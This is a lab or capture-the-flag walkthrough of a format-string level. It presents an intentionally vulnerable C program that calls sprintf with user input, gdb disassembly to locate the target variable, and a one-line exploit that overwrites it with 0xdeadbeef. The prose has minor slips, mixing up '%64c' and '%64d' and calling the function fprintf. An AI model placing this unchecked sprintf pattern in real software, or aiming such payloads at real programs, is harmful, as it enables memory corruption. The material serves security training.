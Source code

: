 ```yaml
---
title: Format 0
sidebar_position: 9
custom_edit_url: null
---
```


> This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
> **Hints**
> - This level should be done in less than 10 bytes of input.
> - “Exploiting format string vulnerabilities”

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
- The program expects one user supplied argument as shown by `vuln(argv[1]);`.
- The code then uses `sprintf` which is where the vulnerability lies.
```
## Bugs

Because **sprintf**() and **vsprintf**() assume an arbitrarily long string, callers must be careful not to overflow the actual space; this is often impossible to assure. Note that the length of the strings produced is locale-dependent and difficult to predict. Use **snprintf**() and **vsnprintf**() instead (or **[asprintf](https://linux.die.net/man/3/asprintf)**(3) and **[vasprintf](https://linux.die.net/man/3/vasprintf)**(3)).

Linux libc4.[45] does not have a **snprintf**(), but provides a libbsd that contains an **snprintf**() equivalent to **sprintf**(), that is, one that ignores the _size_ argument. Thus, the use of **snprintf**() with early libc4 leads to serious security problems.

Code such as **printf(**_foo_**);** often indicates a bug, since _foo_ may contain a % character. If _foo_ comes from untrusted user input, it may contain **%n**, causing the **printf**() call to write to memory and creating a security hole.
```
- Before we exploit the program, we need to know how the stack is laid out.
- Let's disassemble the `vuln` function.
```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```
- We can see that the line at `vuln+26` makes the call to `sprintf`.
```
--snip--;
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
--snip--;
```
- The first argument is the address `ebp-0x4c` and it is loaded into `eax`.
- If we look at the man page of `sprintf` we can see that the first argument is the location of the buffer.
```c
int sprintf(char *restrict _s_, const char *restrict _format_, ...);
```
- Looking back at the disassembled code of `vuln` at `vuln+34` a comparison is being made.
```
--snip--;
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
--snip--;
```
- This is checking if the `target` variable is set to `0xdeadbeef`. The value being compared is being moved from `ebp-0xc`.
- So we know the location of the `buffer` as well as the `target` variable. Let's find the distance between them.
```
(gdb) p/d 0x4c - 0xc
$1 = 64
```
- So the distance is 64 bytes but we have been instructed to use less than 10 bytes. Which means a classic buffer overflow will not work.
- This is where the format string attack comes in.
- Instead of submitting 64 bytes of padding we can submit the format string `%64c` which translates to 64 characters.
- When `fprintf` is executed, it takes the bytes after the format string and overwrites the `target` variable.

## Exploit
```
$ ./format0 $(python -c 'print "%64d\xef\xbe\xad\xde"')
you have hit the target correctly :)
```
